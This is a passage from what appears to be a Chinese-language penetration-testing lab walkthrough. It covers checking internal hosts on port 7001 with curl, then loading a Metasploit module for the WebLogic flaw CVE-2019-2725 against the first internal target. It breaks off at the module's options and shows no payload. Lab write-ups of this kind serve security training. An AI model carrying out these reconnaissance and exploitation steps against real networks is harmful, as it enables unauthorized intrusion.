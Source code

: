 ![](./image/进行内网扫描.png)

---

## 六、验证目标可达性

使用 curl 验证服务存活情况：

```bash
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.4:7001 -vv
curl http://192.170.84.5:7001 -vv
```

---

## 七、攻击内网第一层靶标

确认靶标漏洞为 CVE-2019-2725，搜索并使用模块：

```bash
search cve-2019-2725
use 0
show options
```
